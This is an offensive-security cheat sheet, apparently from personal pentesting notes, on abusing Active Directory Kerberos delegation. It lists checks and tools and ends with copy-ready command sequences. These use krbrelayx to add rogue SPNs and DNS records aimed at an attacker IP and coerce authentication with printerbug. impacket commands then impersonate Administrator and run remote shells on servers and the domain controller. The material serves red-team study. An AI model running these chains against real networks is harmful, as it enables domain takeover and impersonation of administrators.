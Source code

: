 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects
  *  Add FQDNs to `hosts` file or point to name server to avoid DNS errors
  *  All examples here [covered in Red XOR Blue blog post](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation(s)
  *  [`impacket-addcomputer`](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) for creating new machine accounts
  *  [`impacket-rbcd`](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) for reading/writing/clearing RBCD attributes

## Unconstrained delegation
  *  KUD service accounts are provided a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  `krbrelayx` for abusing user accounts with KUD (relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16))
      *  Create evil SPNs for service account using non-existent hostname
      *  Create evil DNS record matching evil SPNs pointing to attacker IP
      *  Coerce authentication to evil SPNs and capture TGT
  *  Computer accounts with KUD are [easily abused by extracting delegated TGTs from memory](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```

## [Constrained delegation](https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c)
  *  KCD service accounts obtain forwardable TGS differently depending on configuration
      *  `Any authentication protocol` relies on [S4U extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/8ee85a47-7526-4184-a7c5-25a5e4155d7d?redirectedfrom=MSDN) to obtain forwardable TGS as any user
      *  `Kerberos only` [limits S4U usage](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition), forwardable TGS are provided by users during auth
  *  `impacket-getST` for obtaining impersonated service tickets via S4U
      *  `impacket` suite will [attempt to modify](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) `sname` during target/ticket service mismatch

```
impacket-getST -spn 'WWW/SERVER.corp.local' -impersonate 'Administrator' corp.local/sqlsvc:'password' -dc-ip 10.0.0.1
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-smbexec corp.local/Administrator@SERVER.corp.local -k -no-pass -dc-ip 10.0.0.1
```

## [Resource-based constrained delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
  *  Accounts w/ SPNs can define delegates within the [`msDS-AllowedToActOnBehalfOfOtherIdentity`](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions) attribute
      *  Constrained delegation S4U limitations do not apply to RBCD 
      *  Delegate objects must also have SPN(s) configured
      *  Search for writable RBCD attributes on service/machine accounts
  *  Take over an account with SPNs, [create a new machine account](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution), or [coerce into a relay](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)... get creative!
  *  `impacket-addcomputer` for creating new machine accounts (SPNs configured by default)
  *  `impacket-rbcd` for writing delegates to RBCD attributes
  *  `impacket-getST` for obtaining impersonated service tickets via S4U

// RBCD abuse via user account w/ write privileges over target machine account
```
impacket-addcomputer -method SAMR -computer-pass 'password' -computer-name 'FAKE' corp.local/bob:'password' -dc-ip 10.0.0.1
impacket-rbcd -delegate-from 'FAKE$' -delegate-to 'DC$' -dc-ip 10.0.0.1 -action write corp.local/bob:'password'
impacket-getST -spn 'CIFS/DC.corp.local' -impersonate 'Administrator' corp.local/FAKE$:'password' -dc-ip '10.0.0.1'
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec corp.local/Administrator@DC.corp.local -k -no-pass -dc-ip 10.0.0.1
```
